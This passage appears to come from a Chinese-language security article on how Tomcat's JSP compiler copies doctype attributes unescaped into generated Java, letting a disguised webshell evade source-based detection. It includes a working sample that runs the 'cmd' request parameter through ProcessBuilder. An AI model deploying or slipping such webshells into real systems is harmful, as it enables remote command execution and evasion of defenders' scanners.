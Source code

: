 如果引擎只是对jsp文件本身进行分析，面对这种畸形的jsp文件，可能数据流分析之类的分析方法就无法正常运行。

除了jsp中直接输入的`<%…%>`代码，在Generator类中还可以看到程序对于很多jsp的参数属性信息也是直接使用print输出到java文件中，因此都存在注入的问题。

比如在jsp文件中，在处理jsp代码前通过generateXmlProlog函数处理xml信息，代码如下：

```java
private void generateXmlProlog(Node.Nodes page) {
    ...
    doctypeName = this.pageInfo.getDoctypeName();
    if (doctypeName != null) {
        doctypePublic = this.pageInfo.getDoctypePublic();
        String doctypeSystem = this.pageInfo.getDoctypeSystem();
        this.out.printin("out.write(\"<!DOCTYPE ");
        this.out.print(doctypeName);
        if (doctypePublic == null) {
            this.out.print(" SYSTEM \\\"");
        } else {
            this.out.print(" PUBLIC \\\"");
            this.out.print(doctypePublic);
            this.out.print("\\\" \\\"");
        }
        this.out.print(doctypeSystem);
        this.out.println("\\\">\\n\");");
    }
}
```

在这个函数中，如果包含了DoctypeName、Doctypepublic及DoctypeSystem等属性，那么就会将这部分内容打印到java文件中。

这部分内容的本意是在在java文件中加入一句out.write("\<!DOCTYPE NAME SYSTEM  DOCTYPESYSTEM "); 但是我们可以在doctypeName等参数中加入`");`以及在doctypeSystem添加`out.print("` 对原本的代码进行闭合，从而注入新的恶意代码。样本如下：

```java
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:output
            doctype-public='t");ProcessBuilder p = new ProcessBuilder(request.getParameter("cmd"));out.print("'
            doctype-system='");p.start();out.print("'
            doctype-root-element=""
    />
</jsp:root>
```

访问jsp文件，生成的java文件如下：

```java
public void _jspService(final javax.servlet.http.HttpServletRequest request, final javax.servlet.http.HttpServletResponse response)
    throws java.io.IOException, javax.servlet.ServletException {
    ...
    try {
        ...

        out.write("<!DOCTYPE  PUBLIC \"t");ProcessBuilder p = new ProcessBuilder(request.getParameter("cmd"));out.print("\" \"");p.start();out.print("\">\n");
    } catch (java.lang.Throwable t) {
    ...
}
```
